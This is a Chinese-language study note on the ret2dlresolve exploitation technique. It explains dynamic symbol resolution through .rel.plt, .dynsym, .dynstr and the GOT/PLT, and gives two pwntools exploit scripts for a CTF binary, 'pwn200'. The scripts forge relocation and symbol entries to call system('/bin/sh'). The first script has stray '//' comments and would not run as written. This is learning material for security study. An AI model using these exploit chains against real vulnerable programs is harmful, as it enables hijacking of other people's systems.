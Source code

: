## 原理详解
动态装载器负责将二进制文件及依赖库加载到内存，该过程包含了对导入符号（函数和全局变量）的解析 
_dl_runtime_resolve(link_map_obj, reloc_index)作用是用于动态链接的函数，用于解析和解决运行时的符号引用。 
该函数有两个参数，第一个参数link_map_obj用于获取导入函数所需要的信息，link_map_obj通过访问.dynamic节，分别取出动态链接字符表.dynstr，动态链接符号表.dynsym，重定位.ret.plt的地址，参数reloc_index则标识了解析哪一个导入函数(reloc_index + rel_plt_addr就是所指向的Elf_Rel的指针)(rel_plt_addr是重定位表.ret.plt的地址) 
![924f250bc91107844f9d115d4d2e7bf2.png](../_resources/924f250bc91107844f9d115d4d2e7bf2-1.png)
Elf_Rel->r_info的高24位为.dynstr的下标，利用dynstr_addr + ((Elf_Rel->r_info) >> 8)求出.dynsym表所在的Elf_sym指针，记作sym 

Sym -> st_name 作为 .dynstr 的下标，即利用dynstr_addr + (sym -> st_name), 求出当前函数在.dynstr所在的指针，记作str

在动态链接库中通过str查找到这个函数的地址，并且把找到的地址赋值给rel->r_offset所指向的地址（即.got.plt表的位置） 

最后调用这个函数 
![b697e49274d7ef48c65c034ba8e2c85d.png](../_resources/b697e49274d7ef48c65c034ba8e2c85d-1.png)
![f2ca192c604448e182352dce0ab545c6.png](../_resources/f2ca192c604448e182352dce0ab545c6-1.png)
![a0e429d90678adb52ef23508a5b20307.png](../_resources/a0e429d90678adb52ef23508a5b20307-1.png)
![bf84b5b9b9961a5ad8d04fbfc7152481.png](../_resources/bf84b5b9b9961a5ad8d04fbfc7152481-1.png)
![e17e2628b384bed21d968aa5c450f187.png](../_resources/e17e2628b384bed21d968aa5c450f187-1.png)

## 看pwn200的题解

```
from pwn import *

context.log_level = 'debug'

elf = ELF('./a.out')
io = process('./a.out')
io.recv()

pppr_addr      = 0x080492d9     # pop esi ; pop edi ; pop ebp ; ret
pop_ebp_addr   = 0x080492db     # pop ebp ; ret
leave_ret_addr = 0x08049105     # leave ; ret

write_plt = elf.plt['write']
write_got = elf.got['write']
read_plt  = elf.plt['read']

plt_0    = elf.get_section_by_name('.plt').header.sh_addr        # 0x80483e0
rel_plt  = elf.get_section_by_name('.rel.plt').header.sh_addr    # 0x8048390
dynsym   = elf.get_section_by_name('.dynsym').header.sh_addr     # 0x80481cc
dynstr   = elf.get_section_by_name('.dynstr').header.sh_addr     # 0x804828c
bss_addr = elf.get_section_by_name('.bss').header.sh_addr        # 0x804a028

base_addr = bss_addr + 0x600    # 0x804a628

payload_1  = b"A" * 112
payload_1 += p32(read_plt)
payload_1 += p32(pppr_addr)
payload_1 += p32(0)
payload_1 += p32(base_addr)
payload_1 += p32(100)
payload_1 += p32(pop_ebp_addr)
payload_1 += p32(base_addr)
payload_1 += p32(leave_ret_addr)
io.send(payload_1)


reloc_index = base_addr + 28 - rel_plt //这个是dl_runtime_resolve函数的第二个参数，对应着fake_reloc存放的地址
fake_sym_addr = base_addr + 36 
align = 0x10 # because the size of Elf.rel is 0x10 
fake_sym_addr = fake_sym_addr + align //这个是r_sym需要用到的值，指代着fake_sym的地址
r_sym = (fake_sym_addr - dynsym) >> 4
r_type = 0x7
r_info = (r_sym << 8) + (r_type & 0xff)
fake_reloc = p32(write_got) + p32(r_info)
st_name = fake_sym_addr + 0x10 - dynstr //这个是str所用到的值，指代着system
st_bind = 0x1
st_type = 0x2
st_info = (st_bind << 4) + (st_type & 0xf)
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)
payload_7 = b"AAAA"
payload_7 += p32(plt_0)
payload_7 += p32(reloc_index)
payload_7 += b"AAAA"
payload_7 += p32(base_addr + 80)
payload_7 += b"AAAA"
payload_7 += b"AAAA"
payload_7 += fake_reloc
payload_7 += b"A" * align
payload_7 += fake_sym
payload_7 += b"system\x00"
payload_7 += b"A" * (80 - len(payload_7))
payload_7 += b"/bin/sh\x00"
payload_7 += b"A" * (100 - len(payload_7))
io.sendline(payload_7)
io.interactive()
```

## 自己的理解
.rel.plt表实际上是plt表的重定位表
比如现在要使用bar函数，来看bar@plt的实现
![fc8fdd8696c2a30c386f99f5e543b6c6.png](../_resources/fc8fdd8696c2a30c386f99f5e543b6c6-1.png)
第一行指令 jmp * (bar@got)
bar@got表示got中保存bar这个函数相应的项，如果该项已经被初始化，那么就会直接跳转到该函数；如果，没被初始化，那么bar@got这个表项的内容就是push n这个指令所在的地址，即从第一句跳转到第二句。
第二行指令是将n压入栈中，这个n是bar这个符号引用在重定位表.rel.plt中的下标，接着将moduleID压入栈中（moduleID实际上就是pwn教材里的link_map_obj）,然后跳转到dl_runtime_resolve当中，来完成符号解析和重定位工作，完成之后会将bar真正的地址填入到bar@GOT中
实际上ELF将GOT表拆分成了两个表，叫做.got和.got.plt，其中.got用来保存全局变量引用的地址，.got.plt用来保存函数引用的地址，也就是说对于外部函数的引用全部被分离出来放到了".got.plt"中
.got.plt前三项是有特殊意义的，分别含义如下：
![45b381c2f9f4b619b765c70ccc57f5bf.png](../_resources/45b381c2f9f4b619b765c70ccc57f5bf-1.png)
基本的PLT结构如图：
![d60955fcc467f1392def9d758106f7f8.png](../_resources/d60955fcc467f1392def9d758106f7f8-1.png)
结构代码如下
![5192b7cd6078d085565f6b767a67402a.png](../_resources/5192b7cd6078d085565f6b767a67402a-1.png)
其中GOT + 4就是model ID(link_map_obj)，GOT+8就是dl_runtime_resolve()
PLT在ELF文件中以独立的段存放，段名通常叫做.plt，因为它本身是一些地址无关的代码，所以可以跟代码段等一起合并成同一个可读可执行的Segment被装载入内存
# 偷懒的方法
可以使用pwntools中自带的模块来构造dlresolve,以下是pwn200使用模块的题解
```
from pwn import *

context.binary = elf = ELF("./pwn200")
context.arch='i386'
context.log_level ='debug'

rop = ROP(context.binary)

dlresolve = Ret2dlresolvePayload(elf,symbol="system",args=["/bin/sh"])
rop.read(0,dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
io = process("./pwn200")
io.recvuntil("\n")
payload = flat({112:raw_rop,256:dlresolve.payload})
io.sendline(payload)
io.interactive()
```